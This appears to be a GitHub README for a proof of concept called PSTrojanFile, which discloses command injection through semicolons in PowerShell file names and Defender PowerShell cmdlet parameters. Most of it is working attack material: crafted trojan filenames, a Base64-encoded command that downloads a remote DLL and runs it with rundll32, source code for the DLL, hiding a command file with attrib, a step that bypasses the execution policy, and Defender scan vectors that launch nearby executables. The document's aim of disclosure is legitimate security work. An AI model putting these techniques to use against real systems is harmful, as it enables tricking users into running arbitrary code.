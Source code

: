 # PSTrojanFile
Windows PowerShell Filename and Defender Anti-Malware PowerShell API Code Execution POC <br>  
Discovery: John Page (aka hyp3rlinx) 2019 and revisted 2023

Updated: Dec 7, 2023 added CL and Windows Defender API vector, see below:

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  


https://www.youtube.com/watch?v=-ZJnA70Cf4I

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/029d41d2-af58-434d-8d0f-0bf8f01d1c55

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/31317076-6ceb-4b28-8062-9c8863b0831d)

Update: Microsoft Defender Anti-Malware PowerShell API - Arbitrary Code Execution.

Microsoft Defender Anti Malware and or PS API's can result in executing arbitrary code.
E.g. scan a directory, shortcut .lnk or even non-existent item, may execute unintended code.
This vector builds upon my previous advisory and subsequent project PSTrojanFile.

Requirements:
1) On CL 'powershell' cmd is prefixed or passed in by calling PowerShell from another script
2) Executable file of same name as the parameter that lives nearby

Examples: <br>
powershell Start-MpScan -Scanpath "C:\Users\gg\Downloads\;saps Helper;.1.zip"
(Helper.exe lives on Desktop)

Create directory  ";saps Test", Test.exe, Test.cmd etc is on same CL path <br>
powershell Add-MpPreference -ControlledFolderAccessAllowedApplications ";saps Test"

Create directory with semicolon, drop PE file named doom.exe in same path.  <br>
powershell Set-ProcessMitigation -PolicyFilePath  "test;saps doom"

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/b033b9f8-1ea0-4ea3-9fa3-56ea63db5b08






https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/3ff3e218-4b64-406f-ab5b-05283062e609


